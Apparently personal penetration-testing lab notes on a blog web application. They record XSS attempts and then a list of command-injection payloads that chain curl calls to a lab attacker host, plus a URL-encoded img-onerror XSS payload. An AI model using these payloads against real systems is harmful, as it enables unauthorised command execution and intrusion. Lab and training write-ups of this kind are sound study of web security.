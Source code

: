 starting page
![[Pasted image 20250106175618.png]]
sending a `test` post
![[Pasted image 20250106175651.png]]
can see it placed at `/blog.php`

![[Pasted image 20250106175720.png]]
next `checking both boxes` and testing `xss` with simple payload `<h1>offsec</h1>` - also note it shows where are posts are placed
![[Pasted image 20250106175941.png]]the `POST` that followed 
- has fields to check for `command injection`
![[Pasted image 20250106180043.png]]
at `/blog.php` looks like the `test` may have processed just not fully, going to try another payload to ensure `XSS` isnt vulnerable
![[Pasted image 20250106180147.png]]
dont think `xss` is the way forward
![[Pasted image 20250106180331.png]]
going to test `LCE` `RCE` `Command Injection` by sending the `/admin/index.php` POST to repeater - starting first by appending to the original place holder for both variables
`$(curl http://192.168.49.61:8000/test.txt)`
```bash
||curl http://192.168.49.61:8000/test.txt
;curl http://192.168.49.61:8000/test.txt
|curl http://192.168.49.61:8000/test.txt
&&curl http://192.168.49.61:8000/test.txt
`curl http://192.168.49.61:8000/test.txt`
$(curl http://192.168.49.61:8000/test.txt)
```


```bash
%3Cimg+src%3D%27x%27+onerror%3D%27alert%281%29%27%3E
```